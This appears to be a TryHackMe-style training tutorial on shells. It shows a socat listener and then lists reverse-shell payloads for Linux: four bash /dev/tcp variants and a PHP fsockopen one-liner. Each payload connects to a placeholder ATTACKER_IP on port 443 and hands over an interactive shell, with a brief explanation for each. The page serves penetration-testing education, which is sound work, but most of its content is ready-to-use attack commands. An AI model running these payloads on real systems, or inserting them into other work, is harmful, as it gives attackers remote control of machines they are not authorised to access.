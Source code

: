 **Default Usage Example (Listening for Reverse Shell):**
```bash 
attacker@kali:~$ socat -d -d TCP-LISTEN:443 STDOUT
2024/09/23 15:44:38 socat[41135] N listening on AF=2 0.0.0.0:443
```
The command above uses the `-d` option to enable verbose output; using it twice (`-d -d`) increases the verbosity of the commands. The `TCP-LISTEN:443` option creates a TCP listener on port 443, establishing a server socket for incoming connections. Finally, the `STDOUT` option directs any incoming data to the terminal.

## Shell Payloads

A Shell Payload can be a command or script that exposes the shell to an incoming connection in the case of a bind shell or a send connection in the case of a reverse shell.

Let's explore some of these payloads that can be used in the Linux OS to expose the shell through the most popular **reverse shell**.

### Bash

**Normal Bash Reverse Shell**

```bash 
target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```
This reverse shell initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP (`ATTACKER_IP`) on port 443. The `>&` operator combines both standard output and standard error.

**Bash Read Line Reverse Shell**
```bash 
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```
This reverse shell creates a new file descriptor (`5` in this case)  and connects to a TCP socket. It will read and execute commands from the socket, sending the output back through the same socket.

**Bash With File Descriptor 196 Reverse Shell**
```bash 
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196
```
This reverse shell uses a file descriptor (`196` in this case) to establish a TCP connection. It allows the shell to read commands from the network and send output back through the same connection.

**Bash With File Descriptor 5 Reverse Shell**
```bash 
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```
Similar to the first example, this command opens a shell (`bash -i`), but it uses file descriptor `5` for input and output, enabling an interactive session over the TCP connection.

### PHP

**PHP Reverse Shell Using the exec Function**
```bash 
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```
This reverse shell creates a socket connection to the attacker's IP on port `443` and uses the `exec` function to execute a shell, redirecting standard input and output.
